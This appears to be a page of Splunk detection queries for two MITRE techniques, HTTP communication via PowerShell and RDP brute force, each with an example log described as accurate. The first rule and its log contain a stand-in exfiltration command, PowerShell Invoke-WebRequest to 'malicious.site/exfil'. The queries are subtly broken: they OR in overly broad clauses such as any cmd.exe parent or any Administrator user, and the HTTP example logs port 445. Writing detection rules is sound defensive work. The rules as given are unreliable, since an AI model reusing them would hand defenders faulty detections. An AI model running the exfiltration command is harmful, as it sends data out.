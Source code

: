 

## T1071.001 - Detection of HTTP Communication via powershell.exe

### Splunk Query

```spl
index=windows sourcetype="WinEventLog:Microsoft-Windows-PowerShell/Operational" EventCode="3" CommandLine="Invoke-WebRequest -Uri http://malicious.site/exfil"
OR ParentProcessName="C:\Windows\System32\cmd.exe"
OR User="testuser"
```
### Accurate Result Data (Example Log)

```json
{
  "timestamp": "2024-05-28 18:20:00",
  "MITRE_Technique": "T1071.001",
  "Description": "Detection of HTTP Communication via powershell.exe",
  "sourcetype": "WinEventLog:Microsoft-Windows-PowerShell/Operational",
  "EventCode": "3",
  "CommandLine": "Invoke-WebRequest -Uri http://malicious.site/exfil",
  "ParentProcessName": "C:\Windows\System32\cmd.exe",
  "User": "testuser",
  "Source_Network_Address": "192.168.56.105",
  "DestinationPort": "445"
}
```

---


## T1021.001 - Detection of RDP Brute Force via mstsc.exe

### Splunk Query

```spl
index=windows sourcetype="WinEventLog:Security" EventCode="4625" CommandLine="mstsc.exe /v:192.168.56.102 -session 53"
OR ParentProcessName="C:\Windows\System32\explorer.exe"
OR User="Administrator"
```
### Accurate Result Data (Example Log)

```json
{
  "timestamp": "2024-05-28 18:25:00",
  "MITRE_Technique": "T1021.001",
  "Description": "Detection of RDP Brute Force via mstsc.exe",
  "sourcetype": "WinEventLog:Security",
  "EventCode": "4625",
  "CommandLine": "mstsc.exe /v:192.168.56.102 -session 53",
  "ParentProcessName": "C:\Windows\System32\explorer.exe",
  "User": "Administrator",
  "Source_Network_Address": "192.168.56.149",
  "DestinationPort": "3389"
}
```

---